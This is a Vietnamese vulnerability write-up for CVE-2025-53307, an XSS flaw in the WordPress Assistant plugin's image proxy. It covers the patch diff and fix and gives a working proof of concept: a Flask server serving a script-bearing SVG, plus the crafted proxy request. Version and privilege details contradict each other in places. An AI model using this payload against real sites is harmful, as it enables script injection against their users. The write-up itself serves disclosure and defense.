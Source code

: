 # CVE-2025-53307 Analysis & POC


---

Lỗ hổng xảy ra trên plugin **Assistant** của WordPress trước phiên bản **3.6.2**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Assistant**:  v1.5.2(vul) và v1.5.3(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis

Ứng dụng hiển thị trực tiếp nội dung hình ảnh do người dùng cung cấp thông qua URL **mà không xác thực và kiểm tra đầy đủ MIME type**. Điều này dẫn đến việc kẻ tấn công có thể cung cấp một tập tin giả dạng hình ảnh và khi được trình duyệt xử lý, nó sẽ thực thi mã độc => gây ra lỗ hổng XSS.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.

![Patch Diff](patch_diff.png "Diff giữa bản lỗi và bản vá")

Trong trường hợp này, sự khác biệt giữa 2 phiên bản khá nhiều, để thuận lợi cho việc truy vết, ta có thể xem [change log](https://wordpress.org/plugins/assistant/#developers) để biết bản vá lỗ hổng XSS ở đâu:

```
Changelog
1.5.3 ( 2025-09-08 )

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 Lỗ hỗng nằm trong file **backend/src/Hooks/ImageProxy.php**, ta quan sát sự khác biệt của 2 phiên bản:

![Patch Diff 1](patch_diff1.png "Sự khác biệt trong hàm render_image của ImageProxy.php")

Sự thay đổi xảy ra ở hàm `render_image` với chức năng:

* Nhận tham số url từ query string `($_GET['url'])`.
* Gửi request từ server đến URL đó để tải nội dung.
* Chống **ssrf** bằng `wp_safe_remote_get`.
* Nếu nội dung có header **Content-Type** bắt đầu bằng `image/`, thì:

  * Gửi lại header **Content-Type** đó cho client.
  * In (echo) toàn bộ nội dung file ra cho trình duyệt.
* Trình duyệt hiển thị hình ảnh **không phải trực tiếp từ nguồn gốc mà thông qua server WordPress**.

> SVG cũng có **Content-Type** bắt đầu bằng `image/` và có thể chứa mã JavaScript bên trong => XSS có thể xảy ra.

Bản vá đã thêm một lớp kiểm tra **MIME type** thực sự của file để tránh kịch bản XSS bằng SVG hay file giả mạo.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) sử dụng hàm xử lý ảnh nội bộ (dựa trên dữ liệu binary của file) để xác định MIME thực sự.

Nếu kết quả không phải là ảnh hợp lệ => return **false**.

### How it work?

Trong `__construct` của class `ImageProxy`, phương thức `render_image()` được gọi thông qua callback của action hook `'init'`. Hook `'init'` được thực thi rất sớm trong quá trình load WordPress, sau khi các đối tượng core được khởi tạo nhưng trước khi gửi output ra trình duyệt.

`render_image` chỉ được gọi khi người dùng hiện tại có quyền chỉnh sửa bài viết của người khác và tham số `$_GET['fl_asst_image_proxy']` tồn tại.

👉 Khi truy cập `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` thì `render_image` sẽ được gọi và trả về nội dung hình ảnh cho trình duyệt hiển thị.

---

## Exploit

### Detect XSS

Tạo 1 trang [web](https://github.com/w41bu1/w41test) đơn giản trả về nội dung SVG chứa XSS payload

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Gửi request chứa **url param** trỏ đến `https://yoursite/svg`

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Thành công với `Unauthenticated` vì chỉ cần người dùng có quyền, khi truy cập url => XSS xảy ra trên trình duyệt của nạn nhân. Attacker không cần đăng nhập.

![Detect](detect.png "SVG chứa XSS payload được hiển thị qua image proxy")

---

## Conclusion

Lỗ hổng **CVE-2025-53307** trong plugin WordPress Assistant (**<= v1.5.2**) cho phép XSS thông qua `render_image()` vì không kiểm tra **MIME type** thực của file. Bản vá **v1.5.3** đã khắc phục bằng cách xác thực nội dung file trước khi trả về trình duyệt.

**Key takeaways**:

* Không tin cậy vào **Content-Type header** từ **HTTP response**.
* Luôn xác thực **MIME type** thực sự của file.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)

---

